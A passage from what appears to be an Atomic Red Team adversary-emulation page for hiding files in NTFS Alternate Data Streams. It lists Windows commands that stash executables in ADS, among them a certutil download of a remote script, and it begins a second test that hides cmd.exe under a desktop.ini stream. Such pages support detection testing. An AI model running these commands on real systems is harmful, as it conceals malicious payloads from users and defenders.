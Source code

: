 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:&#92;ADS&#92;|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1564.004/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```






<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)
Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.
Upon execution cmd will run and attempt to launch desktop.ini. No windows remain open after the test

**Supported Platforms:** Windows


**auto_generated_guid:** 2ab75061-f5d5-4c1a-b666-ba2a50df5b02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload_path | Path of file to hide in ADS | path | c:&#92;windows&#92;system32&#92;cmd.exe|
| ads_file_path | Path of file to create an ADS under | path | C:&#92;Users&#92;Public&#92;Libraries&#92;yanki&#92;desktop.ini|
| ads_name | Name of ADS | string | desktop.ini|
